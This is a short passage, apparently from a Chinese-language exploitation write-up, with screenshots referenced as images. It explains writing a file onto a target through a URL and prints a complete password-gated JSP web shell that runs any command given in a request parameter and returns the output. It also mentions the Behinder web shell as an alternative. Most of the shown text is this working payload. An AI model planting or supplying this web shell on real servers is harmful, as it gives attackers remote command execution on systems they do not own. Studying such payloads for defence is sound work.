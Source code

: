 ![image-20230418161144880](images/32.png)

![image-20230418161155412](images/33.png)



通过URL写进去，这里就写一个最简单的jsp，也可以直接写冰蝎马

```
<%
    if("DawnT0wn".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>

```
